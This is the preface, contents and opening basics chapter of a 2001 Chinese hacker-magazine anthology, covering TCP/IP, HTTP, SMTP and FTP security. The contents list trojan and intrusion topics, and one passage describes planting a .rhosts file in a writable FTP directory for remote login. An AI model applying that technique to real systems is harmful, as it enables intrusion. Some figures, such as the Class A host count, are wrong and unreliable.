# 黑客防线精华本 2001

黑客防线编辑部

## 前言

随着2002年的到来，《黑客防线》已经走过了将近两年的风雨历程，她每向前走一步都困难重重。庆幸的是有广大朋友们的大力支持，为了更好的回报朋友们的厚爱，我们将《黑客防线精华本》奉献给大家。书中内容全部取自《黑客防线》，精中选优，经过编辑部再次整理，将全书分为五部分：基础篇、工具篇、提高篇、高级篇和破解篇。做到由浅入深、层层深入，即使你以前对网络安全一无所知，通过本书也可以快速上手，了解一些规范常识，一步步地深入到这个领域内，提高自身技术，真正让朋友们感觉到网络安全并不神秘，“黑客”并不可怕。

光盘一直是《黑客防线》的一大特色，《黑客防线精华本》保持这种风格，将我们搜集的最新、最好、最实用的工具和补丁整理到一起，每个工具都有简单的说明文件和路径。光盘中的软件经过详细分类，方便读者查询使用。另外补充了原来光盘所缺少的关于分区、维护、恢复等常用工具，使得它更加实用，更受朋友们喜爱。

如果您已经看过《黑客防线》——《黑客防线精华本》将是您的珍藏佳品。

如果您还没看过《黑客防线》——《黑客防线精华本》将是您的首选读物。

## 目录

## 基础部分
- 防黑必备基础
- 常用网络相关命令解释
- AIX 常用命令
- Ftp 命令大全
- POP3 命令简介
- Linux 操作系统下的一些命令
- UNIX 作业系统操作简介
- 特洛伊木马原理揭秘
- 汇编语言基础

## 工具部分
- NetXRay 的使用
- 网络间谍——SpyNet Sniffer
- 网管攻防利器
- 黑客首选利器——SubSeven
- 通往地狱的网络巴士——NetBus
- 构建你的个人防火墙——LockDown 2000
- IRC 攻防策略

## 提高部分
- 网络入侵入门
- 网民上网请注意安全！
- 对共享主机的简单入侵
- 利用 ASP 的特殊功能来实现的木马和入侵
- 用 finger 来实现的简单密码探测
- Unicode 应用扩展
- 成功入侵 NT 后获取其他用户密码的原理分析
- 完整清除欢乐时光
- 从入侵角度看 Windows 2000 的安全性
- Windows NT 系统账号安全攻防
- IIS ISAPI .Printer 远程溢出攻击
- 利用错误的 MIME 头实行攻击
- 使用普通用户来执行超级用户的命令
- 利用 Winsock 控件编写 CGI 漏洞扫描程序
- 突破网关限制随心所欲 QQ
- 透视 CGI 扫描器的原理和实现过程
- 用 VB 来编写监听木马探测以及常规扫描的程序
- 浅谈 Windows 2000 的本地破坏性操作
- 与微软的第一次接触竟然会这样
- 微软的“漏洞”其实是这样
- 教你几招网上“防身术”
- 灾难数据的对策
- 黑客行动的蛛丝马迹
- CGI 安全概述
- 微机加密心得
- IP 入侵案例分析
- NetBIOS 入侵实战
- 网络攻防战
- 溯雪的另类应用两则
- 防范特洛伊木马的二十条铁律
- 手动清除“红色代码 II”
- Windows NT 安全防范措施
- 我们是如何进入 WWW.xxxxxxxx.com 的
- 网吧攻防小全
- 简单 Windows 2000 肉鸡的获得
- 在肉鸡上制作 Srock 跳板
- 利用 unicode 漏洞轻松建立自己的代理服务器
- Named 漏洞利用
- 木马冰河随意改装
- 最快速登录 WIN2K TELNET 服务

## 高级部分
- 黑客得到 NT 的 Admin 以后能做什么
- 枚举本地及远程 NT 系统进程
- 如何杀掉本地和远程 NT 系统进程
- 微软终端服务 Terminal Service 的几个使用技巧
- VMWARE 完全实现心得
- Linux 安全攻略
- Windows 2000 安全检查清单
- 入侵检测方法和缺陷
- 获取 Windows 2000 服务器系统信息
- “蓝色代码”详细分析
- “尼姆达”蠕虫分析与解决方案
- 透析 Jessica Worm 病毒
- 网络欺骗攻击
- Solaris 操作系统的安全化
- 防御缓冲区溢出攻击方法比较分析
- 拒绝服务攻击
- 嗅探原理与原嗅探技术详解

## 破解部分
- 密码破解
- 系统破解篇章
- 动态跟踪分析器“SOFTICE” & “TRW2000”
- Softice & TRW2000 指令详解
- Win API 函数与中断点设置技巧
- Visual Basic 应用程序的破解
- 用 SmartCheck 破 Visi Font Gold
- 用 Softice 破 Collector V2.1
- “神拿” V1.1 的破解过程

## 防黑必备基础

一、基本概念解析

1. 万维网（WWW）

WWW 即 World Wide Web，中文一般称为万维网（或全球网），平常说的 Web，互联网其实与此是同一含义。创建 WWW 是为了解决 Internet 上的信息传递问题。在 WWW 创建以前，几乎所有的信息发布都是通过 E-mail、FTP、Archie 等实现的。E-mail 的使用让不同的团体和个人之间的信息交换变得很广泛；FTP（文件传输协议）用来从一台计算机到另一台计算机进行文件传输；Archie 用来查找 Internet 上的各种文件。由于 Internet 上的信息散乱地分布在各处，因此除非知道所需信息的位置，否则无法对信息进行搜索。

由于这样或那样的限制，必须开发出一种全新的独立于各种平台的方法，以便于在 Internet 上传递信息。正是在这种需求下，瑞士日内瓦的欧洲粒子物理实验室 CERN 开发出超文本标记语言（HTML）。HTML 是从一种称为标准化标记语言（SGML）的文档格式语言演化而来的。HTML 设计为易于学习、使用和在 Internet 上传递信息的一种文档表示语言，HTML 比 SGML 更简单易学。为了在 Internet 上传递 HTML 文档，要使用基于 TCP/IP 的协议。

这种协议后来成为超文本传输协议 HTTP。WWW 是随 HTTP 和 HTML 一起出现的，Web 通过使用强有力的媒介传递信息克服了许多早期信息传递的限制。Web 服务器利用 HTTP 传递 HTML 文件，Web 浏览器使用 HTTP 检索 HTML 文件，从 Web 服务器一旦检索到信息，Web 浏览器就会以静态和交互（如文本、图像）的形式显示各种对象。

随着文本、图像、影像、声音和交互式应用程序的统一，WWW 已经成为信息交换的一种很有效的方式。正是由于 WWW 的出现，我们才可以浏览各种信息来源，并且通过各种超级链接从一种信息来源转到另一种信息来源。超级链接是指向 Web 页面的统一资源定位器（URL）的对象。当用户单击一个超级链接时，该用户就会到超级链接所指向的 Web 页面。URL 可以看作是 Web 页面的地址。每个 Web 页面都有一个或多个 URL 与之相关。在特殊应用程序和浏览器的推动下，Web 很快成为 Internet 发布文本和多媒体信息的一种有效手段。WWW 很大程度上是在 NCSA（National Center for Supercomputing Applications）于 1993 年发布的 Mosaic（Web 浏览器）后得到普及的。

WWW 之所以如此流行是因为它克服了 Web 浏览器出现之前许多应用程序的缺点，这些应用程序在 Internet 上用来发布信息。在过去，Internet 上几乎所有信息都是字符文本格式，这样信息不能按照多种格式表示，导致了浏览和搜索方面的困难。而 WWW 上的信息可以有多种格式，易于浏览和理解。例如，在讨论复杂问题时，可以使用图表、影像剪辑甚至互动式应用程序，而不仅仅是字符文本，这样会便于解释论题，使人一目了然。WWW 集成了所有的视觉辅助效果来表示信息。

由于 WWW 是基于客户机/服务器模式，因此它是与平台无关的，通常服务器对于浏览 Web 站点的用户是透明的，这是 WWW 之所以成功的另一个原因。CERN 所定义的 Internet 标准和协议不是私有标准，因此任何人都有权使用与 Internet 标准和规范一致的自己的 Web 服务器和 Web 浏览器。这种自由和开放性使得一些机构（如 NCSA、Netscape 和 Microsoft）能够扩充现有的 Internet 标准（如 HTML），满足 WWW 用户更广泛的需要。正是这些先驱机构的努力，才使得 WWW 一直成为 Internet 的首选信息发布工具，为 Internet 的使用者提供更多的选择和控制权。

与其他信息发布工具相比，WWW 由于所需的费用很低，并且覆盖面广，因而具有很大的吸引力。另外使用各种搜索机制、Web 站点分类目录、数据库注册一个 Web 站点，可以使客户在需要时得到所需的信息。

2. TCP/IP 协议

TCP/IP 协议是 Internet 和 Intranet 的基石，用于从一台机器向另一台机器传输数据和信息。在本章，将涉及到 TCP/IP 协议的历史，TCP/IP 协议中的 IP 协议、TCP 协议和 UDP 协议，以及建立在这些协议之上的各种 TCP/IP 服务。

### TCP/IP 的历史

TCP/IP 的历史可以追溯至 70 年代中期，当时 ARPA（Advanced Research Project Agency，高级研究计划局）为了实现异种网之间的互联与互通，大力资助网间网技术的研究开发，于 1977 年到 1979 年间推出与目前形式一样的 TCP/IP 体系结构和协议规范。

1980 年前后，DARPA（国防部高级研究计划局）开始将 ARPANET 上的所有机器转向 TCP/IP 协议，并以 ARPANET 为主干建立 Internet。

为了推广 TCP/IP 协议，高级研究计划局以低价出售 TCP/IP 的实现，并通过资助美国伯克利加州大学将 TCP/IP 协议融入 BSD UNIX 版本。1983 年，伯克利加州大学推出内含 TCP/IP 的第一个 BSD UNIX 版本，该协议软件可谓生逢其时，因为当时许多大学正缺乏一种有效的联网手段以建造它们各自的局域网。

BSD UNIX 成功的原因是多方面的。首先，除了提供标准的 TCP/IP 应用程序外，还包括一组网络服务工具，这些工具和 UNIX 的使用方式相接近，从而深受 UNIX 用户的欢迎。第二，BSD UNIX 提供一种访问通讯协议的系统调用：Socket。Socket 是一种进程间通信的机制，使程序员可以方便地访问 TCP/IP 协议，或多或少地推动了 TCP/IP 的研究开发工作。

在 1985 年，美国国家科学基金会（NSF，National Science Foundation）开始涉足 TCP/IP 的研究和开发，并逐渐成为极为重要的角色。国家科学基金会资助建立了 NSFNET 网并采用 TCP/IP 为其传输协议。目前，NSFNET 已经取代 ARPANET 成为 Internet 的新的主干。到今天，TCP/IP 技术及 Internet 已得到极为迅猛的发展，出现了大量从事 Internet 技术开发和服务的公司，如近几年崛起的 Netscape 公司和 Internet 服务提供商 Hotmail。如今 Internet 被人们认为是一块新的淘金地，人们从中也享受到不少 Internet 带来的便利，如 WWW 服务、E-mail 服务和新出的 Internet 电话。

### TCP/IP 基本概念

Internet 是全球最大的、开放的、由众多网络互联而成的计算机网络，在这个庞大的网络中又可以分成许许多多的子网和子网的子网，不同子网或网络可能使用不同的介质，如 FDDI（光纤分布式数据接口）、ATM（异步传输模式）、以太网和无线网等。TCP/IP 就是用来屏蔽各种网络和机器的不同，使它们可以相互通信，并向上层提供一个公共的界面。下面，本书将介绍一些 TCP/IP 的基本概念。

#### (1) OSI 层次模型和 TCP/IP 层次模型

当谈论网络时，会经常谈到协议栈模型，这里只介绍 OSI 模型和 TCP/IP 模型。OSI 模型是 1978 年由国际标准化组织定义的一个协议标准，旨在发展开放式系统并作为一个基石来比较不同的通信系统。与 OSI 模型不同，TCP/IP 层次模型是在实践中发展起来的，层次分类和各层功能与 OSI 模型都有所不同，但可以把它和标准 OSI 模型作比较，以帮助理解 TCP/IP 层次模型。

##### 1) OSI 层次模型

OSI 模型有 7 层，如图 1 所示。当接受数据时，数据自下而上传输，当发送数据时，数据自上而下传输。



图 1 OSI 层次模型

1. 物理层建立在物理介质上，实现机械和电气过程的接口，主要包括电缆、物理端口和附属设备。
2. 数据链路层建立在物理传输能力的基础上，以帧为单位传输数据，一个典型数据链路层数据帧如图 2 所示。
地址段含有发送节点和接收节点的地址，控制段用来表示数据帧的类型，数据段包含实际要传输的数据，差错控制段用来检测传输中帧出现的错误。
数据链路层可使用的协议有 SLIP、PPP、X25 和帧中继等等。

| 目标地址 | 源地址 | 长度 | 类型 | 数据 | CRC |
|---|---|---|---|---|---|
| IEEE 802.2/802.3 封装 |  |  | 类型 | IP 数据包 |  |
|  |  |  | 类型 | ARP |  |
|  |  |  | 类型 | RARP |  |

图 2 数据链路层数据帧

3. 网络层
网络层的主要功能是提供路由，即选择到达目标主机的最佳路径，并沿该路径传送数据包。除此之外，网络层还要能够消除网络拥挤，即具有流量控制和拥塞控制的能力。我们通常所说的路由器就工作在这个层次上。

4. 传输层
传输层用于提高网络层服务质量，提供可靠的端到端的数据传输，比如说两个位于不同机器上的进程之间的通信。TCP 层就相当于 OSI 模型中的传输层。

5. 会话层
会话层利用传输层来提供增加的会话服务，会话可能是一个用户通过网络登录到一个主机，或一个正在建立的用于传输文件的会话。

6. 表示层
表示层用于数据管理的表示方式，如用于文本文件的 ASCII 和 EBCDIC，用于表示数字的 1S 或 2S 补码表示形式。如果通信双方用不同的数据表示方法，他们就不能互相理解。表示层就是用于屏蔽这种不同之处。

7. 应用层
应用层包含用户应用程序执行通信任务所需要的协议和功能，如电子邮件和文件传输等。

##### 2) TCP/IP 层次模型

TCP/IP 的层次模型只有 4 层，但它的每一层可能包含 OSI 模型的多层，如它的网络访问层包括物理层和数据链路层，其层次结构如图 3 所示。


1. 网络访问层（以太网、FDDI、ATM 和 Token Ring（令牌环））
相当于 OSI 模型中的物理层加上数据链路层，是 TCP/IP 结构中的最底层，负责从上层接收 IP 数据包并把 IP 数据包进一步处理成数据帧发送出去，或从网络上接收数据帧，解开数据帧，抽出 IP 数据包，并把数据包交给 IP 层。

2. 互联网层（IP）
相当于 OSI 模型中的网络层。有关 IP 层的数据结构和路由的实现。IP 层的服务是无连接的、不可靠的，这样 IP 层的实现就变得简单。服务可靠性的实现交给了上层协议，即 TCP 层。

3. 传输层（TCP 或 UDP）
TCP 是面向连接的、可靠的，而 UDP 正好相反。TCP 一般用于传输硬件可靠性差的广域网，而 UDP 用于硬件可靠性好的局域网。

4. 应用层（FTP、Telnet 和 HTTP）
向用户提供一组常用的应用程序，如 FTP 和 SMTP 应用程序等。严格说来，TCP/IP 网际协议只包含如图 1-3 所示下面 3 层，应用程序不能算作 TCP/IP 的一部分，事实上用户完全可以在传输层上建立自己的应用程序。

在 TCP/IP 中，数据包的特点是一层套一层的，每一个协议层用特殊的连接围绕上一层的数据包，像洋葱层一样。在每一层，数据包分为报头和本体：报头包括与该层相关的控制信息，而本体是从上一层传下来的数据。每一层把上一层的数据作为本体，并且加上本层适当的报头控制信息，然后再交给下一层处理。

#### 3）以太层数据帧结构

因为以太网是一种极为常用的网络，下面介绍一下以太网数据包的组成。
以太层数据包由两部分组成：以太报头和以太本体，本体一般是 IP 数据包，但也可能是 ARP（Address Resolution Protocol，地址解析协议）和 RARP（Reverse Address Resolution Protocol，逆向地址解析协议）请求/回答包。报头包括三个部分：目标地址、源地址和数据帧类型（是 IP 报文还是 ARP 请求/回答报文，由它来决定）。

#### 4）网络接口

每一个要连接到网络上的设备必须有一个网络接口，该网络接口必须与网络运行的媒体相一致，如令牌环的网卡不可能连接到一个同轴电缆网络。
下面是一些常用的媒体类型：
- 光导纤维、双绞线电缆、以太网（RG-8U 同轴电缆）、Thinnet（RG-58U 同轴电缆）、令牌环。

大部分网络接口有一个硬件地址，如以太网的硬件地址，也叫 MAC（Media Access Control，媒体访问控制）地址。是一个 48 位的十六进制数，形如 0:0:C0:6f:2d:40。而且每一个接口都要有一个 IP 地址，IP 地址和硬件地址是相对应的，很多情况下可能是一一对应的。ifconfig 是一个查看和配置接口的工具，一般在支持网络的操作系统中都含有这个命令，如 Windows 95、Windows NT 和 UNIX。大家可以试试从而对接口有一个感性的认识。另一个有用的命令是 netstat。

#### IP 协议

IP 协议是位于 ISO 七层模型中网络层的协议，它实现了 Internet 中自动路由的功能，即寻径的功能。IP 协议可以被看成一辆辆的卡车，而 TCP 或 UDP 则是卡车上面的货物，只要告诉卡车司机的目的地，具体他怎样去，选择什么路就不需要关心了，可以说 IP 是 TCP 的载体。那么 IP 怎样实现了路由的功能呢？
这正是下面所要讲到的。

##### 1）IP 地址

Internet 上每一台计算机都要至少拥有一个 IP 地址。一般来说，一台机器的 IP 地址数和网络接口数是相同的，但有些情况下，一个接口可能会有两个或多个 IP 地址，这些情况是很少的。
我们生活在地球上，要有我们的地址，这样其他人才可以和我们通信，同样在 Internet 上，计算机也需要地址，即 IP 地址。
IP 地址的主要类型有五种：A、B、C、D 和 E，一般 A、B、C 类地址更为常用，每类地址都是由 32 位或 4 个字节组成。

###### 1. A 类地址

在 A 类地址中第一个 8 位字节表示网络部分，其余 3 个 8 位字节用来标识主机，如图 4 所示。A 类 IP 地址的第一段数字范围为 1 ~ 127，每个 A 类地址可连接 163877064 台主机，Internet 上有 126 个 A 类地址。

| | 7 bits | 24bits |
|---|---|---|
| 0 | NET ID | HOST ID |

图 4 A 类地址

## 2. B 类地址

在 B 类地址中，两个 8 位字节表示网络部分，其余两个 8 位字节表示主机，如图 5 所示。B 类 IP 地址的第一段数字范围为 128 ~ 191，每个 B 类地址可连接 65534 台主机，Internet 上有 16384 个 B 类地址。

| | NET ID | HOST ID |
|---|---|---|
| 14 bits | | 16 bits |

图 5 B 类地址

## 3. C 类地址

C 类地址使用 3 个 8 位字节作为网络部分，只有一个 8 位字节留给主机，如图 6 所示。C 类 IP 地址的第一段数字范围为 192 ~ 223，每个 C 类地址可连接 254 台主机，Internet 上有 2097152 个 C 类地址。

| | NET ID | HOST ID |
|---|---|---|
| 21 bits | | 8 bits |

图 6 C 类地址

- 4. D 类地址用作多目的地信息的传输，作为备用，D 类 IP 地址的第一段数字范围为 224 ~ 239。
- 5. E 类地址保留，仅作为 Internet 的实验和开发之用。E 类 IP 地址的第一段数字范围为 240 ~ 254。

从上面三个图中，可以发现 A 类或 B 类网络拥有数以千计或数以百万计的主机，这是不切合实际的，因为不可能有任何一个网，其主机数会有这么多。为了解决这个问题，人们发明子网（Subnet）的概念，就是把 A、B 类地址进一步地细化，如图 7 所示。

| | NET ID | SUBNET ID | HOST ID |
|---|---|---|---|
| 14 bits | 8 bits | 8 bits |

图 7 子网化一个 B 类地址

这就有了一个新的问题，根据地址类型可以确定地址中的 NET ID 和 HOST ID 部分，但 SUBNET ID 怎么和 HOST ID 分离开来呢？这时需要用到了网掩码。子网掩码是一个 32 位的值，其中网络 ID 和子网 ID 部分全部被置 1，主机的部分被置零。当知道了子网掩码和一个主机的 IP 地址，如果想得到网络号和子网号，可以把子网掩码和 IP 地址进行位运算中的 “AND” 运算，这样就去了主机号，剩下的网络号和子网号可以通过地址类型来进行分离。例如：

```
146.64.127.7 .AND 255.255.255.0 ( B 类地址 )
得到 146.64.127.0
```

根据地址类型，可以得到子网号为.127。

大家可能要问为什么需要进行地址分类和子网划分，这实际上是为了减小路由表，从而提高寻径的效率。

### 2) IP 地址和硬件地址

为什么需要硬件地址和 IP 地址？

首先，IP 地址是用来在网络层上对不同的硬件地址类型进行统一，从而提供网络互连的可能性；而硬件地址在真正的数据传输中要用到。其次，IP 地址是网络层的概念；而硬件地址是数据链路层的概念。第三，在数据传输过程中，目标 IP 地址是不变的；而目标硬件地址随着所经过的网段不同而不断变化。

### 3) IP 报头

IP 数据包符合典型数据分组的一般格式，分为报头和数据区两部分。

## TCP 协议

TCP 协议是一个传输性的协议，它向下屏蔽了 IP 协议不可靠传输的特性，向上提供一个可靠的点到点的传输。TCP 协议一般用于广域网，如 Internet，这是由广域网的特点所决定的。一般来说，广域网的可靠性差、延迟长，TCP 就是用来屏蔽广域网的缺点，向用户提供一种可靠传输的服务。

### (1) TCP 的包头

源端口一般是一个随机的端口号，目标端口则不是随机的，要根据客户主机所请求的服务决定，如 HTTP 服务的端口号是 80，Telnet 的端口号是 23 等等。一般情况下，源端口号是个大于 1023 小于 65535 的数，目标端口是小于等于 1023 的数。

### (2) TCP 连接的建立

TCP 连接的建立使用三次握手协议，在此过程中双方要互报自己的初始序号，这样就可以保证包的接收顺序和发送顺序相一致。TCP 连接的建立过程如图 8 所示。



### 图 8 三次握手过程

一般来说，除了第一个包，后面的包的 ACK 位被置 1，所以查看 ACK 位便可确定此包是否用来发出连接请求。

主机 1 首先发出一个连接请求包，即发生主动连接，在包中包含有主机 1 要发送的包的初始序列号，本例中为 14157。主机 2 收到这个请求包后，记录下主机 1 的初始序列号，这样主机 2 便可以推算出下一个它应从主机 1 收到的包的序列号。当然在建立连接后的数据传输中，每个数据包中都要包含序列号。为了建立可靠的连接，TCP 中规定在任何一方收到对方的数据包后，都要向对方作出应答，这样对方就知道数据已经安全到达了。否则，发送方在一段时间后还未接到对方应答，就会认为包丢失了，会向对方重发一个相同的数据包。

TCP 的连接是一种全双工的连接，即数据可以沿双向传送，所以主机 2 也要发出一个被动的连接请求，这就是为什么在过程 2 的数据包中含有 SYN 标志以及初始序号 78826 的原因。数据包和应答包大部分情况下是合二为一的，因为这样可以减少包流量，所以在主机 2 发向主机 1 的数据包中，ACK 位被置 1。

在过程 3 中，主机 1 对主机 2 的连接请求作出应答。在这里，因为主机 1 无数据包可发，所以一个单独的应答包被发向主机 2。

如上所述，就是 TCP 所谓的面向对象连接，这种方式可以确保在真正的数据发送前，双方已经作好了充分的准备。和 TCP 相反，UDP 提供的是一种无连接的服务，若有数据可发，主机便会立即发送出去，不管对方单机是否已经关门或出了故障，接收方在收到包后也不会给发送方一个应答，所以发送方根本无法知道数据包是否已经安全到达了目的地。

## UDP 协议

UDP 协议提供了一种传输不可靠的服务，相对于 TCP，它的实现极为简单。它主要用于可靠性高的局域网当中，建立在 UDP 协议上的应用程序有 NFS、SNMP 和 DNS 等等。

UDP 协议的包头如图 9 所示，可以看到和 TCP 包头一样，UDP 的包头也含有源端口和目标端口，但没有 ACK 等各种标志位。同样，在包过滤当中，会用到源端口和目标端口。根据端口可以在一定程度上确定服务类型。

| UDP 源端口 | UDP 目标端口 |
|---|---|
| UDP 的报头长度 | UDP 的校验和 |
| 数据区 | |

图 9 UDP 的报文格式

## 3. 超文本传输协议 (HTTP)

HTTP 的英文全称是 Hypertext Transfer Protocol，中文译为“超文本传输协议”。HTTP 是当前运行最多的协议，它本身是安全的，但它提供的相关服务影响了它的安全性。

HTTP 是应用级的协议。主要用于分布式协作的超媒体信息系统。HTTP 协议是通用的、无状态的，其系统建设与传输的数据无关。HTTP 也是面向对象的协议，可用于各种任务，包括（并不局限于）域名服务、分布式对象管理、请求方法的扩展和命令等等。

Web 帐户这种快速访问、开放以及无状态的特性，使得控制和保护变得非常困难。

在 Internet 上，HTTP 通信往往发生在 TCP/IP 连接之上，其缺省端口为 80，也可用其他端口。这并不会妨碍 HTTP 在其他协议之上的实现，事实上，HTTP 协议规范并没有限制其底层实现。当浏览器收到其不理解的数据类型时，会依靠其他附加应用程序来将其转换成可以理解的格式。这些应用程序一般叫观察器，它们的安全性非常重要，因为 HTTP 协议并不能阻止这类观察器执行危险命令。

对于代理服务和网关应特别小心，转发 HTTP 不能理解其格式的请求时更要谨慎。HTTP 的版本决定协议的功能，代理和网关不应发送其版本比自己版本还高的信息。如果收到高版本请求，网关或代理均应将其版本降下来，以错误信息响应，或是转到另一处理过程中去。

一些主要的 HTTP 客户程序，如 Purveyor 和 Netscape Navigator 支持 SOCKS 及透明代理等各种代理机制。

另外，无论将服务器放于网络的里面还是外面，都应考虑防火墙；HTTP 的开放性具有很大的风险，况且还要担心观察器和小的应用程序。

在选择防火墙时，要考虑 HTTP 代理服务的功能，这对于保护浏览器是很有用的。一些防火墙和工具，比如 TISFWTK 就提供了完全的 HTTP 客户代理。

## 4. 简单邮件传输协议 (SMTP)

SMTP 即 Simple Message Transfer Protocol，中文译为“简单邮件传输协议”。SMTP 是 TCP/IP 协议族定义的机器间交换邮件的标准，SMTP 只是关注底层邮件传递系统如何将报文从一个机器传到另一个机器，它没有定义邮件如何存储或以多快速度传送。

SMTP 客户机和服务器间的通信由可读的 ASCII 文本组成。SMTP 定义了命令格式，使人们容易看到客户机与服务器间的交互情况。最初，客户机建立一条到服务器的可靠数据流连接，并等待服务器发送一个“220 READY FOR MAIL”报文。收到 220 报文后，客户机发送一个 HELLO 命令，服务器通过标识自己做响应。一旦建立通信，发送者可传送一个或多个邮件报文、终止连接，或请求服务器交换发送者和接收者的身份以使报文能反向流动。接收者必须确认每个报文，也可异常终止整个连接或当前的报文传送。

邮件事务由 MAIL 命令开始，它给出发送者标识符和一个包括接收差错报告地址的 FROM 字段。接收者准备其接收新邮件报文的数据结构，并通过发送响应 250 回答 MAIL 命令表示正常。完全的响应由文本 250 组成。与使用其他应用协议一样，程序只读缩写命令和每行开头的 3 个数字，其余文本用于调试邮件软件。

成功执行 MAIL 命令后，发送者发出标识邮件报文接收者的一系列 RCPT 命令。接收者必须确认每个 RCPT 命令，这可以通过发送 250 或发送差错报文 550 来完成。确认所有的 RCPT 命令后，发送者发出一个 DATA 命令。一个 DATA 命令告诉接收者发送者已经传送了一个完整的邮件报文。接收者用报文 354 响应，并指明用于终止邮件报文的字符序列。终止序列由 5 个字符组成：回车、换行、点、回车和换行。

一旦客户机可发出 TURN 命令将连接反向，然后接收者发响应 250，并假定已控制了连接。随着任务反过来，原服务器端将发回任何等待的邮件报文。控制交互的任一端可选择终止会话，只要发出一个 QUIT 命令即可。另一端用命令 221 响应，意味着同意终止连接。

如果一个用户移动了，服务器可能知道用户新的邮箱地址。SMTP 支持服务器通知客户机新的地址，以便客户机以后使用它。当通知客户机新的地址时，服务器可能选择转发这个引发报文的邮件，或可能请求客户机负责转发。

## 5. 文件传输协议 (FTP)

FTP 的英文全称是 File Transfer Protocol，中文指“文件传输协议”。是为进行文件共享而设计的因特网标准协议。FTP 服务允许客户将文件从一个机器复制到另一个机器，它类似于 NFS 的方式，不过用于远程网络，客户端一般也需验证。

当提供自己的 FTP 服务器的时候，可使用非匿名服务器进行口令验证，但这只能供少数一些人使用（如一个小部门的人进行文件共享）。通常的情况下使用匿名 FTP，使没有得到全部授权访问 FTP 服务器的远程用户，可以传输能够共享的文件。如果运行 FTP 服务器，用户就可能在未经允许登录的情况下，取得存放在系统中一个分离的公共区域中的文件，并可能取得系统中的任何东西。站点上的匿名 FTP 区可能存有机构的文件档案、软件、图片以及其他类型的信息，这些信息是人们需要从用户那里得到的，或用户希望与他们共享的。

使用匿名 FTP，用户可以用“匿名”用户名登录 FTP 服务器。通常情况下，要求用户提供完整的 E-mail 地址做为响应。然而在大多数站点上，这个要求不是强制性的，只要它看起来像 E-mail 地址（如：它是否包含@符号），它不对口令做任何方式的校验。

要确保匿名 FTP 服务器只能存取允许存取的信息，不允许外人存取本机的其他资料，如个人资料等。

在 FTP 服务器处理匿名用户命令之前，许多 FTP 服务器执行 Chroot 命令进入匿名 FTP 区。然而，为了支持匿名 FTP 利用 FTP，FTP 服务器要访问所有文件，这就是说 FTP 服务器并不总是在 chroot 环境中运行。

为了解决这个问题，可以通过修改 inetd 的配置来代替直接启动 FTP 服务器，它执行 chroot（用类似于 chrootuid 的程序）然后再启动 FTP 服务器。一般情况下 FTP 只限于在匿名用户下访问，匿名用户有其正常的访问权。在启动 FTP 服务器前执行 chroot 意味着匿名用户也受到限制。如果 FTP 服务器上没有匿名用户，这就无关紧要了。

建立匿名 FTP 系统的具体技术依赖于操作系统使用的特定 FTP 管理程序（守护程序）。

# 黑客防线精华本 2001

匿名用户获取到不应见到的文件，通常是由于内部客户将文件放在匿名 FTP 区。如果不希望外界阅读自己的文件，最好不给匿名的 FTP 提供文件。如果可能，就采用其他传输方式。否则，可使用改进的 FTP 服务器，如：wuarchive 服务器，它提供半匿名访问，这就要求匿名用户用一个附加口令来访问某些路径，也可以把文件放在没有阅读权，只有执行权的路径下。这样做是让人们知道传输文件的名字，但不能让他们看到文件内容。

无论用什么方法一定要让能往匿名 FTP 路径下存放文件的任何人都知道：不要把机密文件放在外人可读的路径下。实现它的简单方法是：阻止用户用匿名 FTP 路径写文件，并要求他们请系统管理员来提供某个文件。

FTP 有安全漏洞是人所共知的，而且现在的 FTP 正变得非常复杂和难以理解，功能也不断增强。比如，FTP 系统的一个主要安全漏洞是它可以被黑客骗取某个用户的权限，而黑客实际上是以公共帐户方式登录的。

FTP 服务器的目录权限是很重要的，黑客一旦侵入，其第一件事就是查看目录是否可写。如果可以，他便会把包含其名字和当前机器的.rhosts 文件放到该目录下，由于该目录通常是 FTP 用户（FTPD）的主目录，于是一个可以进入系统的远程登录就大功告成了。

对于 FTP 的安全防范，应该注意以下两点：

- 1. FTP 服务器运行是否正确
  应当定期检查 FTP 服务器运行是否正确，如果是 Windows NT 系统，可以在本机上使用 IP 回环（loopback）地址来检验：
  ```
  ftp 127.0.0.1
  ```
  本机检验与通过 Windows NT 和大部分 Unix 客户进行检验没什么区别，可以决定 FTP 服务器的目录、访问许可等是否正确。

- 2. FTP 服务器配置是否正确
  根据 CIAC 的建议，在配置 FTP 服务器时应考虑下面的原则：
  - （1）匿名 FTP 服务器中的文件和目录不应属于“ftp”，否则匿名用户就可以通过 Internet 远程修改、替换和删除它们。
